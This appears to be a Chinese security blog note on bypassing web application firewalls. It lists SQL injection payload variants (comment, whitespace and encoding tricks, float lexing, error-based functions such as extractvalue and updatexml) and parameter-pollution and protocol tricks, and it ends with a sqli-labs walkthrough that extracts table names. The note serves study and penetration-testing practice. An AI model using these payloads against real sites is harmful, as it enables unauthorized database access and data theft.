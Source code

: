 ```yaml
---
layout:       post
title:        "WAF绕过原理分析笔记"
subtitle:     "null"
date:         2020-10-01 14:55:43
author:       "NeptLiang"
header-img:   "img/home-bg.jpg"
header-mask:  0.3
catalog:      true
multilingual: true
tags:
    - Sec
    - WebSec
    - Bypass
---
```



# 0x00 前言

Null

---


# 0x01 白盒绕过

## 1. 分析代码

## 2. 绕过限制

1. **大小写变形**：`Or`，`OR`，`oR`，适用于正则没有`/i`
2. **等价替换**：`and`->`&&`, `or`->`||`
3. **双写**：`or`->`oorr`

---


# 0x02 黑盒绕过

参考[seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

## 一、架构层绕过WAF

1. 寻找**源站**（原始IP地址）->针对云WAF
2. 利用**同网段主机**进行渗透->绕过WAF防护区域
3. 利用**边界漏洞**（如利用SSRF）->绕过WAF防护区域

## 二、资源限制角度绕过WAF

POST**大BODY**（WAF可能会为了性能选择性忽略大数据包）

## 三、协议层面绕过WAF检测

### 1. 协议未覆盖

* 请求方式变换：GET->POST
* `Content-Type: application/x-www-form-urlencoded`
    -> `multipart/form-data`

### 2. 参数污染

检测：`?id=1&id=2`，WAF可能只检测第一个不检测第二个，中间件可能用第二个覆盖第一个

## 四、规则层面的绕过（绕过WAF规则）

### 1. SQL注释符绕过
1. 
    ```sql
    union/**/select
    ```
2. 
    ```sql
    union/*aaaa%0xbbs*/select
    ```
3. 
    ```sql
    union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select  /*（中间插入超长注释）*/
    ```
4. 内联注释：
    ```sql
    /*!xxx*/
    ```

### 2. 空白符绕过

1. MySQL**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`, `%0C`, `%A0`, `/*xxx*/`

2. 正则的**空白符**：`%09`, `%0A`, `%0B`, `%0D`, `%20`
* 例1：
    ```sql
    union%250Cselect
    ```
    （%25即“%”，“%250C”即"%0C")
* 例2：
    ```sql
    union%25A0select
    ```

3. **函数分割**符号  
    1. ```sql
        concat%2520(
        ```  
    2. ```sql
        concat/**/(
        ```  
    3. ```sql
        concat%250C(
        ```  
    4. ```sql
        concat%25a0(
        ```
4. **浮点数**词法解析（WAF可能对int/字符型+union select进行匹配，则用浮点型+union select）
    1. ```sql
        where id=8E0union select
        ```
    2. ```sql
        where id=8.0union select
        ```
    3. ```sql
        where id=\Nunion select
        ```
    ![id=8.0union](https://cdn.nlark.com/yuque/0/2020/png/2727264/1603136684724-54629ae2-5dc1-4d0a-8b19-bea7dbaa72d1.png)
5. 利用**error-based**进行SQL注入（Error-based SQL注入函数非常容易被忽略）
    1. ```sql
        extractvalue(1,concat(0x5c,md5(3)));
        ```
    2. ```sql
        updatexml(1,concat(0x5d,md5(3),1);
        ```
    3. ```sql
        GeometryCollection((select*from(select*from(select@@version)f)x))
        ```
    4. ```sql
        ploygon((select*from(select name_const(version(),1))x))
        ```
    5. ```sql
        linestring()
        ```
    6. ```sql
        multpoint()
        ```
    7. ```sql
        multilineString()
        ```
    8. ```sql
        multipolygon()
        ```
6. MySQL特殊语法
    ```sql
    select{x table_name}from{x information_schema.tables};
    ```

---


# Fuzz绕过WAF

## 例1：注释符绕过

先测试最基本的：
```sql
union/**/select
```
再测试中间引入特殊字：
```sql
union/*aaaa%0xbbs*/select
```
最后测试注释长度：
```sql
union/*aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa*/select
```
模式：
```sql
union/*something*/select
```

## 例2：sqli-labs题解

1. **检测**：参数加单引号报错
2. **Fuzz**: 把空格（`%20`）替换为`/**/`，然后用脚本或bp在注释中插随机特殊字符进行Fuzz，如数字`1`、字母`a`、`!`、`@`、`#`、`$`、`%`、`'`等，通过响应长度、payload是否符合语法、响应是否报错判断发现`/*%!%2f*/`可绕过该WAF
3. 把参数中的空格（`%20`）全部**替换**为`/*%!%2f*/`进行下一步测试
4. `order by`判断**字段数**为3个
5. `union select 1, 2, 3`，发现`2`和`3`出现在页面上，故这两个位置可回显结果
6. `union select 1, user(), 3`，发现又被拦截，可知可能是`user()`被匹配到，故改成`user/*%!%2f*/()`，查询成功
7. 
    ```sql
    union select 1, (select table_name from information_schema.tables where table_schema=database() limit 0, 1), 3-- 
    ```

---


*//End of Article*

**参考文献**：

* [seceditor@MottoIN《WAF攻防研究之四个层次Bypass WAF》（mottoin.com/detail/359.html）](http://www.mottoin.com/detail/359.html)

![公众号二维码](https://neptliang.github.io/img/Article/WeChatBlog.png)
